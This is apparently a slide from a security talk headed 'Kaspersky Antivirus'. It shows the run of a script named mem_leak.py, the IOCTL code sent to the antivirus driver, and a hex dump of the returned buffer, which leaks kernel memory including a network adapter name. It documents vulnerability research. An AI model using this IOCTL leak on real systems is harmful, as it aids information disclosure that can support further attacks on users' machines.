

# Kaspersky Antivirus
python mem_leak.py
Time to send IOCTL : 0x8123e048
content of outBuff.bin
(...)
Offset      0  1  2  3  4  5  6  7   8  9  A  B  C  D  E  F
00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ................
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ................
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ................
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ................
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ................
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ................
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ................
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ................
00000080   00 00 00 00 00 00 00 00  06 00 00 00 02 00 00 00   ................
00000090   00 00 00 00 01 00 00 00  05 98 22 F3 9E 86 9E 47   ........."óž†žG
000000A0   BA 76 DD 64 3F 1D 1B 80  00 00 00 00 00 00 00 00   şvÝd?..€........
000000B0   00 00 00 00 00 00 00 00  07 00 00 00 3C 00 57 00   ............<.W.
000000C0   41 00 4E 00 20 00 4D 00  69 00 6E 00 69 00 70 00   A.N. .M.i.n.i.p.
000000D0   6F 00 72 00 74 00 20 00  28 00 4E 00 65 00 74 00   o.r.t. .(.N.e.t.
000000E0   77 00 6F 00 72 00 6B 00  20 00 4D 00 6F 00 6E 00   w.o.r.k. .M.o.n.
000000F0   69 00 74 00 6F 00 72 00  29 00 00 00 00 00 00 00   i.t.o.r.).......